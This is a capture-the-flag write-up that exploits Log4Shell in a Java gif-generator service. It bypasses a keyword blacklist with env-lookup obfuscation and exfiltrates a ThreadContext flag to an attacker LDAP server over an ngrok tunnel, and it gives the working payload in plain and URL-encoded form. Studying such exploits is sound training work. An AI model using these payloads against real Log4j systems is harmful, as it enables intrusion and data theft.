

# Writeup

Upon opening the website we are greeted with an input bar. It's says random gif generator and it does in fact generate random gif upon entering a word.


From the description we can deduce that the server is running on java. Provided java file proves that theory.

```java
@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("api/check-gif")
    public String index(@RequestParam("input") String input) {
        String preparedGif = input
        .trim()
        .replace("jndi", "")
        .replace("ldap", "")
        .replace("lower", "")
        .replace("upper", "");

        ThreadContext.put("id", UUID.randomUUID().toString());
        ThreadContext.put("flag", "CTF{sample}");

        logger.info("Received query for gif: {}", preparedGif);
        
        return preparedGif;
    }
```

It simply removes whitespaces and some words and returns prepared string. There is a `logger.info` which hints a Log4J. Also, it seems like the flag is hidden inside the `ThreadContext` so getting a shell isn't very useful here. One last thing is that we can't use `jndi`, `ldap`, `lower` and `upper` keywords.


Now let's check the website. Besides the two buttons there doesn't seem to be any more here. Sending a gif we can look at the Network tab to see the request


We can see the request to backend with `GET` parameter `?input=`. It means that we have to url encode our payload.

Inspecting the [Log4j lookups site](https://logging.apache.org/log4j/2.x/manual/lookups.html) in the section `Environment Lookup` there is a note about default values. When we craft our payload as so: `${env:SOME_NONEXISTENT_VARIABLE:test}` we can actually inject our own string so we can bypass the no `ldap` and `jndi` check.

The payload for now looks like this: 
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-://<ip>:<port>}
```

Now we need to somehow get the `ThreadContext` value. From the same site as earlier we can find that there is a lookup for it. Writing `${ctx:flag}` should give us the flag.

The only thing that's left is to receive the payload. We can use the [ldap-log4j](https://github.com/kannthu/ldap-log4j) exploit from github. It sets up an ldap server and reads the contents of path. 

```
node script.js
```


In order for a server to connect to us, we need to forward the port to some public ip. I'll use ngrok for that.
```
ngrok tcp 4000
```


We need to copy the ip under the `Forwarding` label, omitting the `tcp` part `2.tcp.eu.ngrok.io:13994`.

The final exploit looks like this (Ip `2.tcp.eu.ngrok.io:13994` is random. You need to adjust it to your own output of ngrok): 
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//2.tcp.eu.ngrok.io:13994/${ctx:flag}}
```

and running it through url encode (Again, you have to encode it manually, since the ip here won't be the same as yours):
```
%24%7B%24%7Benv%3AENV_NAME%3A-j%7Dndi%24%7Benv%3AENV_NAME%3A-%3A%7D%24%7Benv%3AENV_NAME%3A-l%7Ddap%24%7Benv%3AENV_NAME%3A-%3A%7D%2F%2F2.tcp.eu.ngrok.io%3A13994%2F%24%7Bctx%3Aflag%7D%7D
```

Pasting that string into the input on the website, we can inspect our malicious LDAP server:



```
CTF{l0g5_b3l0ng_70_c4mpf1r35_n07_c0mpu73r5}
```

